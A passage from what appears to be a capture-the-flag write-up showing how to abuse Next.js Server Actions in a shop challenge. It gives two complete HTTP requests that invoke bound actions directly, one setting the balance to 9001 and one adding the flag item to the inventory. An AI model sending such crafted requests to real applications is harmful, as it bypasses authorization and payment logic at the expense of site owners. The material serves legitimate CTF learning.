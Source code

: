 Now, with all the things we've gone through to understand how Server Actions work, we should have at least 3 paths to get the flag.

### Path 1 - Rosebud, kaching and motherlode

We could send a request usually used with bounded actions to arbitrarily set our balance to any desired value, effectively bypassing any intended limitations. With our balance set sufficiently high, we could then simply purchase the EPT Tote Bag that contains the flag, completing the challenge without needing any additional exploits.

In the request shown below, we basically call `setMoney.bind(null, 9001)()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 409

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"5033aa9e8e719350ff01f9a353595d64a7488812","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

[9001]
------WebKitFormBoundaryQApJRAsTKClOX1Fa--

```

### Path 2 - EPT Tote Bag directly in my bag

Similarily, an even easier way is to just simply add the EPT Tote Bag containing the flag, directly to our inventory.

In the request shown below, we basically call `addItem.bind(null, "EPT Tote Bag")()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 421


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"240aa4f8f6a6e8c0edfbc1f6b473afaa2164e7b7","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["EPT Tote Bag"]
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```
